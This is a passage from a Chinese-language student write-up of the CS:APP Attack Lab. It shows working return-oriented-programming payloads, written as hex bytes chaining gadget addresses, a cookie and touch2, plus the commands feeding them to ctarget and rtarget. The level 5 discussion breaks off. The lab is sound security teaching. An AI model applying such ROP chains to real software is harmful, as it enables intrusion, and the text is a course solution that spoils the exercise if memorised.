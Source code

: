 ```sh
Attack Lab$ ./hex2raw <touch3.txt>3.txt 
Attack Lab$ ./ctarget -qi 3.txt 
```

### **2.1level 4**

思考：
首先要把cookie传入%rdi，然后再转入到touch2函数。

根据readme.pdf的命令列表，在gadets farm中没有发现popq %rdi。于是可以先popq %rax，然后movq %rax, %rdi


这里的缓冲区完全被junk填充，然后从getbuf的ret向下执行。用到了两个gadget，所用到的data也放在了栈上。

方法一

```
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
cc 19 40 00 00 00 00 00     /* jump 0x4019cc; popq %rax         */
fa 97 b9 59 00 00 00 00     /* cookie                           */
c5 19 40 00 00 00 00 00     /* jump 0x4019c5; movq %rax, %rdi   */
ec 17 40 00 00 00 00 00     /* touch2                           */
```

方法二

```sh
@le2.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 2b 40 00 00 00 00 00 #pop %rdi
fa 97 b9 59 00 00 00 00 #cookie
ec 17 40 00 00 00 00 00 #touch2
```

```sh
./hex2raw < le2.txt | ./rtarget -q
```

### **2.2level 5**

肝不动了，参考别人的。

思考：

同Phase 5一样，这里也需要考虑如何存放cookie字符串，并且多了一个传递字符串地址到%rdi的难题。

首先，getbuf的缓冲区应该全部填充为junk，那么cookie字符串为了不干扰exploit的正常运行，必然要放在exploit的最后。

第二个问题，一开始在gadgets farm找到许多如下的操作：
